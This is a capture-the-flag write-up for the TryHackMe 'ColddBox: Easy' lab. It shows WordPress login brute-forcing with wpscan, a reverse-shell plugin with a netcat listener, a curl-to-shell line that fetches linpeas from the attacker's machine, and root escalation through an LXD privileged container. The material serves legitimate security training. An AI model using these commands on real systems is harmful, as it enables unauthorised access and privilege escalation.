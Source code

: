 # > ColddBox: Easy
<https://tryhackme.com/room/colddboxeasy>
-------------------------
It is a cool box (literally). So lets start some Hacking …
So lets start with some nmap scan to enumerate which all ports are open.
```bash
# nmap -T4 -sV -A target > nmap_scan.txt 

```
![1](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/1.png)

So port 80 is open that I already knew by opening the ip in web browser.
Since it was a web page I began directory search to see is there any broken
access control.
```bash
# gobuster dirb -u target:80 --wordlist /usr/share/wordlists/dirb/small.txt
-e -o dir.txt 
```
![2](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/2.png)

There is a ‘/hidden’ directory on the target that is accessible and gave
potential users on the target.

![3](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/3.png)

And since web page is made on wordpress and there is a login page, great
option to bruteforce wordpress login is using wpscan.

```bash
$ wpscan --url http://target/wp-login.php -e u -P
/usr/share/wordlist/rockyou.txt 

```
![4](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/4.png)

Bingo!!! we have a password for c0ldd user. After login we have an
admin dashboard.

Lest get a reverse shell on the target using WP plugin. I found this simple
reverse shell script on
<https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-she
ll>.

![5](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/5.png)

I started a netcat listener on my machine on port 8000 ```bash # nc -lvnp 8000 ```
and got a reverse shell by activating our plugin and found that www-data
user have very less permissions thus I enumerated the target using
[linpeas.sh]( https://github.com/carlospolop/privilege-escalation-awesome-scripts-suit
e/tree/master/linPEAS ).Download the linpeas.sh file form Github on your
machine,cd to the downloaded directory and start a simple python server on
your machine ```bash # python3 -m http.server 1234 ``` and on target run it using
``` $ curl http://<attackbox_ip>:1234/linpeas.sh | sh ```, This will directly
run the shell script on the target machine.

![6](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/6.png)

This gave away wp-config.php file that contained password of user _c0ldd_.
To su to _c0ldd_ user we need a stable shell, stablizing shell by this great
one-liner ```bash $ pyhton3 -c ‘import pty;pty.spawn(“/bin/bash”)  
$ su c0ldd ``` and use password _cybersecurity_ to get access. Now cat the user.txt flag in
/home/c0ldd directory ```bash $ cat /home/c0ldd/user.txt ```.

![7](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/7.png)

Hurray!! got the user flag.

##### Now lets get root access.

Linpeas enumeration also gave potential services, users that could be
exploited. Luckly lxd (container service) is present and accessible by _c0ldd_ user.

![8](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/8.png)

Lets exploit this service, Download the vulnerable container image using 
[alpine for lxd](https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml)
cd to download dir and start http server and transfer the file to target machine
using wget.

>Add the image :
```bash $ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
$ lxc image list -- You can see your new imported image
```
>Create a container and add root path
```bash
$ lxc init alpine privesc -c security.privileged=true
$ lxc list 
$ lxc config device add privesc host-root disk source=/ path=/mnt/root
recursive=true
```
>Execute the container:
```bash
$ lxc start privesc
$ lxc exec privesc /bin/sh
```

As this container is mounted with /root directory we can access root.txt
inside it ```bash $ cat /mnt/root/root.txt ```

![9](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/9.png)

> With that the we rooted the box.
